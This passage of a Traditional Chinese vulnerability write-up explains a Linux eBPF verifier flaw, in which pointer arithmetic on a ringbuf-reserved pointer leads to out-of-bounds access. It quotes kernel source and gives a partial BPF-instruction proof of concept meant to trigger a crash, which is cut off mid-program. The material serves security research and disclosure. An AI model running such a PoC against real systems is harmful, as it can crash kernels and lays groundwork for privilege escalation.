 實際上只有兩個 helper 的參數類型會是 `ARG_PTR_TO_ALLOC_MEM`，分別為 `bpf_ringbuf_submit()` 以及 `bpf_ringbuf_discard()`。

```c
const struct bpf_func_proto bpf_ringbuf_discard_proto = {
    .func        = bpf_ringbuf_discard,
    .arg1_type    = ARG_PTR_TO_ALLOC_MEM,
    // [...]
};

const struct bpf_func_proto bpf_ringbuf_submit_proto = {
    .func        = bpf_ringbuf_submit,
    .arg1_type    = ARG_PTR_TO_ALLOC_MEM,
    // [...]
};
```

這是因為 submit 與 discard 都是用來處理 reserve 操作的回傳位址，而 `bpf_ringbuf_reserve()` 的回傳值類型會是 `RET_PTR_TO_ALLOC_MEM_OR_NULL`。

```c
const struct bpf_func_proto bpf_ringbuf_reserve_proto = {
    .func        = bpf_ringbuf_reserve,
    .ret_type    = RET_PTR_TO_ALLOC_MEM_OR_NULL,
    // [...]
};
```

類型為 `RET_PTR_TO_ALLOC_MEM_OR_NULL` 的值在 NULL check 後就會被 verifier promote 到 `PTR_TO_MEM`，同時也是與 `ARG_PTR_TO_ALLOC_MEM` 相容的 type。

```c
static const struct bpf_reg_types *compatible_reg_types[__BPF_ARG_TYPE_MAX] = {
    // [...]
    [ARG_PTR_TO_ALLOC_MEM]        = &alloc_mem_types,
    // [...]
};
static const struct bpf_reg_types alloc_mem_types = { .types = { PTR_TO_MEM } };
```

而 `PTR_TO_MEM` 被允許做 pointer arithmetic (addition or subtraction)，導致 `bpf_ringbuf_discard()` 或 `bpf_ringbuf_submit()` 拿到的第一個參數已經是被修改過的 pointer，可能會產生 out-of-bound access 的問題。

回頭看 Linux 5.15.146，雖然 `check_func_arg()` 的 type value switch case 在當時被拆成許多 if-else 來處理，但仍沒有對 `ARG_PTR_TO_ALLOC_MEM` 做檢查，因此漏洞依然存在。



### 3. PoC

只需要對 `bpf_ringbuf_reserve()` [1] 回傳的 **pointer 做運算操作** [2]，就可以在 `bpf_ringbuf_discard()` [3] 時拿到錯誤位址的 header 而觸發 crash。

```c
{
    BPF_LD_MAP_FD(BPF_REG_1, ringbuf),
    BPF_MOV64_IMM(BPF_REG_2, 0x3000),
    BPF_MOV64_IMM(BPF_REG_3, 0x0),
    BPF_RAW_INSN(
        BPF_JMP | BPF_CALL, 0, 0, 0,
        BPF_FUNC_ringbuf_reserve), // [1]
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_6, BPF_REG_0),


    BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, -4), // [2]


    BPF_MOV64_REG(BPF_REG_1, BPF_REG_6),
```